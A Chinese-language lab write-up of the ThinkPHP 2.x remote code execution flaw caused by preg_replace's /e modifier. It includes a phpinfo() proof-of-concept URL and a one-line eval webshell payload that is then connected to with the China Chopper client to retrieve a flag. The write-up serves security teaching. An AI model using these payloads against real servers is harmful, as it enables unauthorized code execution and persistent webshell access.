 # ThinkPHP 2.X 任意代码执行

# 漏洞概述

在 ThinkPHP ThinkPHP 2.x 版本中，使用 preg_replace 的 /e 模式匹配路由：`$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));`

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

 ThinkPHP 3.0 版本因为 Lite 模式下没有修复该漏洞，也存在这个漏洞。所以先来看看`preg_replace`这个函数，这个函数是个替换函数，而且支持正则，使用方式如下：

`preg_replace('正则规则','替换字符','目标字符')`

这个函数的3个参数，结合起来的意思是：如果目标字符存在符合正则规则的字符，那么就替换为替换字符，如果此时正则规则中使用了`/e`这个修饰符，则存在代码执行漏洞。

下面是搜索到的关于`/e`的解释：

```
e 配合函数preg_replace()使用, 可以把匹配来的字符串当作正则表达式执行;  
/e 可执行模式，此为PHP专有参数，例如preg_replace函数。
```

## Write up

首先打开靶场

![1](./1.png)

利用 POC 来验证, phpinfo() 成功执行。

```
/index.php?s=/index/index/xxx/${@phpinfo()}
```

![2](./2.png)

然后写入一句话

`/index.php?s=/index/index/xxx/${${@eval($_POST[1])}}`

并用菜刀连接

![4](D:\BMH\write_up\ThinkPHP_2.X任意代码执行\4.png)

连接完成后去 tmp 临时文件下去查看 Flag

![5](D:\BMH\write_up\ThinkPHP_2.X任意代码执行\5.png)
